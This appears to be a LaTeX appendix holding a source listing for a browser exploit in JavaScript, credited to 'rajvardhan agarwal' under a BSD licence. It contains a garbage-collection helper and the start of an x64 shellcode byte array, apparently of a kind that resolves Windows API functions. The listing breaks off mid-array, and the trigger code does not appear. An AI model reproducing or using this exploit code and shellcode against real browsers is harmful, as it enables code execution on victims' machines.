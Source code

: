 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}
<script>
/*
BSD 2-Clause License
Copyright (c) 2021, rajvardhan agarwal
All rights reserved.
Redistribution and use in source and binary forms, with or without
modification, are permitted provided that the following conditions 
are met:
1. Redistributions of source code must retain the above copyright 
   notice, this list of conditions and the following disclaimer.
2. Redistributions in binary form must reproduce the above copyright 
   notice, this list of conditions and the following disclaimer 
   in the documentation and/or other materials provided with the 
   distribution.
THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
POSSIBILITY OF SUCH DAMAGE.
*/
    function gc() {
        for (var i = 0; i < 0x80000; ++i) {
            var a = new ArrayBuffer();
        }
    }
    let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
	0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
	0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
	0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
	0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
	0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
	0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
	0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 
	0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
	0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
	0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
	0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
	0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
	0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
	0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 
	0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
    0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 

\end{lstlisting}
\end{appendices}
\end{document}
